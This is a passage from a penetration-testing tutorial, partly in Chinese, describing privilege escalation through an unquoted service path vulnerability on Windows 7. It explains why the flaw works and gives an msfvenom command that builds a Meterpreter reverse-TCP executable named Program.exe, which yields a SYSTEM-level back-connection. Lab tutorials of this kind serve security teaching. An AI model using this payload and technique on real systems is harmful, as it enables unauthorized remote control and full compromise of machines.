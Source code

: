 6.  Now we will restart the Windows 7 system and wait for our handler, to see if we get a back-connection:

    ![How to do it...](img/image_09_014.jpg)

7.  我们已成功地在重新启动时获得反向连接；这是由于无引号的服务路径漏洞造成的。
8.  Let us check the user level we received the connection of:

    ![How to do it...](img/image_09_015.jpg)

9.  我们在系统中。现在我们可以在操作系统上执行任何任务而不受任何限制。

## 它是如何工作的。。。

正如简介中所讨论的，这是因为 Windows 处理服务二进制文件路径的执行流程。我们可以利用任何中间有空格且没有引号的服务。

让我们了解一下`msfvenom`命令：

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP   Address>   LPORT=<Your Port to Connect On> -f exe > Program.exe

```
